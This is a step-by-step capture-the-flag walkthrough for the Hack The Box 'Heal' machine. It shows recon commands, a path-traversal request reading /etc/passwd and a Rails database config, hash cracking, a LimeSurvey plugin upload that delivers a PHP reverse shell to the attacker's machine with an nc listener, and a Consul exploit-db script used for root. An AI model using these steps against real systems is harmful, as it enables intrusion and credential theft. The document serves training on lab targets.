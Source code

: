 **NOTES:**

VPN 10.10.11.46

1.  Add **heal.htb** to **/etc/hosts** file **RUN:** **sudo nano
    /etc/hosts**

2.  RUN: **Nmap -sV -Pn heal.htb**

Ports found: 22, 80

![](Heal/media/image1.png){width="4.538461286089239in"
height="1.317004593175853in"}

3.  **SUBDOMAIN-FUZZING**

RUN: **ffuf -w
/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u
http://monitorsthree.htb -H \"Host:FUZZ.monitorsthree.htb\" -ac**

![](Heal/media/image2.png){width="4.524886264216973in"
height="2.0443667979002624in"}

4.  Add **api.heal.htb** to **/etc/hosts** file

![](Heal/media/image3.png){width="4.511311242344707in"
height="1.529468503937008in"}

5.  Open in Browser: heal.htb

- Register a USER

- After that, check the survey button, hover over TAKE THE SURVEY (There
  is a hidden URL)

![](Heal/media/image4.png){width="3.8626377952755906in"
height="3.6200240594925632in"}

![](Heal/media/image5.png){width="3.890110454943132in"
height="3.954897200349956in"}

6.  [Add to **take-survey.heal.htb** to **/etc/hosts** file]{.mark}

7.  Open the hidden page

- Username **ralph** found

![](Heal/media/image6.png){width="3.3461548556430447in"
height="1.7374759405074365in"}

8.  Check hidden page. RUN: **dirsearch -u
    take-survey.heal.htb/index.php -t 50**

**Result**

![](Heal/media/image7.png){width="6.290972222222222in"
height="0.4673611111111111in"}

**Opened**

![](Heal/media/image8.png){width="4.252748250218723in"
height="3.859695975503062in"}

9.  Go back to heal.htb/resume and login with your previously created
    account

10. Open Burpsuite and intercept the proxy

- Page loaded with INTERCEPT ON

![](Heal/media/image9.png){width="4.15594706911636in"
height="2.5989009186351706in"}

- Result: 1 time forwarded. Send to Repeater

![](Heal/media/image10.png){width="4.164835958005249in"
height="2.5222364391951007in"}

- Added Path traversal

**GET /download?filename=../../../../../etc/passwd HTTP/1.1**

![](Heal/media/image11.png){width="5.598902012248469in"
height="3.541998031496063in"}

- Search for HOME to find Users

![](Heal/media/image12.png){width="3.7472528433945755in"
height="1.1387773403324584in"}

Since we found that the website RUBY ON RAILS (api.heal.htb) used it, we
searched and got it's config file address

- Mod 1^st^ line: **GET /download?filename=../../config/database.yml
  HTTP/1.1**

- **Click Send**

![](Heal/media/image13.png){width="5.434066054243219in"
height="3.554727690288714in"}

Download sqlite3 file

![](Heal/media/image14.png){width="5.214285870516186in"
height="3.2899660979877514in"}

11. Crack PASSWORD HASH

- Create a txt file with the HASH inside

![](Heal/media/image15.png){width="3.3076924759405073in"
height="0.869319772528434in"}

- RUN: **john test.txt \--wordlist=/usr/share/wordlists/rockyou.txt**

![](Heal/media/image16.png){width="6.302083333333333in"
height="1.6041666666666667in"}

- Login via SSH not possible

- Login with found credentials, **USER:** ralph **PASSWORD:** 147258369
  on

[**http://take-survey.heal.htb/index.php/admin/home.php**](http://take-survey.heal.htb/index.php/admin/home.php)

![](Heal/media/image17.png){width="4.637363298337708in"
height="3.063104768153981in"}

Website Verison, see below.

![](Heal/media/image18.png){width="2.0604396325459318in"
height="0.27405074365704285in"}

12. **LimeSurvey-RCE** (Find a script on Github)

<https://github.com/Y1LD1R1M-1337/Limesurvey-RCE>

![](Heal/media/image19.png){width="2.593406605424322in"
height="2.065793963254593in"}

- Download **config.xml** and **php-rev.php** in Kali VM

- Add **version 6.0** to **config.xml INFO: otherwise it won't work**

![](Heal/media/image20.png){width="6.302083333333333in"
height="3.263888888888889in"}

- Check your **Kali machine's IP-ADDRESS** (COMMAND: ifconfig)

![](Heal/media/image21.png){width="3.8461548556430447in"
height="0.27586067366579176in"}

- Put this IP in the **php-rev.php** script

**Result:**

![](Heal/media/image22.png){width="5.1593416447944005in"
height="3.218969816272966in"}

- ZIP both files (config.xml and php-rev.php)

INFO: Open new Terminal in same directory as both files are located!

RUN: **zip zipname config.xml php-rev.php**

![](Heal/media/image23.png){width="5.093406605424322in"
height="1.2268667979002625in"}

13. Upload zipname.zip + activate plugin

![](Heal/media/image24.png){width="6.3in" height="1.4472222222222222in"}

Click 3^rd^ step and select the file **zipname.zip**

![](Heal/media/image25.png){width="6.3in" height="3.6in"}

Push INSTALL

![](Heal/media/image26.png){width="6.3in" height="2.7194444444444446in"}

![](Heal/media/image27.png){width="6.3in" height="3.4458333333333333in"}

Activate it

![](Heal/media/image28.png){width="6.3in" height="0.9506944444444444in"}

Activated

![](Heal/media/image29.png){width="6.3in"
height="0.37777777777777777in"}

14. Start listener on Kali VM

RUN: **nc -lvnp 100**

![](Heal/media/image30.png){width="6.3in" height="1.1729166666666666in"}

15. To bounce shell, open this URL in Browser

**http://take-survey.heal.htb/upload/plugins/Y1LD1R1M/php-rev.php**

**SUCCEEDED**

![](Heal/media/image31.png){width="6.3in" height="1.7513888888888889in"}

16. Change directory to /var/www/limesurvey/application/config

- RUN: cat config.php

**USER + PASSWORD FOUND**

This **PASSWORD** can be used with **USER= ron (SSH login works)**

![](Heal/media/image32.png){width="6.3in" height="4.500694444444444in"}

**INFO:** There is only 1 ralph user in the table, his password is the
same as the hash above = 147258369

**There is nothing that can be used in the database**

17. 1^st^ FLAG: Cat user.txt

![](Heal/media/image33.png){width="4.353596894138232in"
height="3.3131867891513562in"}

**[PRIVILEGE ESCALATION]{.underline}**

1.  Transfer Linpeas.sh with SCP-COMMAND to SERVER and let it run.

2.  Start linpeas with: **./linpeas.sh**

![](Heal/media/image34.png){width="7.0865135608048995in"
height="1.554945319335083in"}

3.  Port forwarding: RUN: **ssh -L 8500:127.0.0.1:8500 <ron@heal.htb>**

> ![](Heal/media/image35.png){width="4.902309711286089in"
> height="3.5549453193350833in"}

4.  Open website **http://127.0.0.1:8500**, check source code

**-Source code 1.19.2 found**

> ![](Heal/media/image36.png){width="3.4890113735783026in"
> height="1.187503280839895in"}

5.  Look for vulnerability <https://www.exploit-db.com/exploits/51117>

> Create exploit.py and put the script in

6.  Set NC listener to get bounce shell

**On Kali machine**:

RUN: **nc -lvnp 100**

> ![](Heal/media/image37.png){width="2.2307688101487315in"
> height="0.8517049431321085in"}

7.  Send request to listener (to Kali VM)

> RUN (on Kali VM): **python exploit.py 127.0.0.1 8500 Kali-IP 100 0**
>
> ![](Heal/media/image38.png){width="3.192308617672791in"
> height="0.9669116360454943in"}

8.  Connection established. Found Root.txt

![](Heal/media/image39.png){width="4.1703291776028in"
height="3.901259842519685in"}
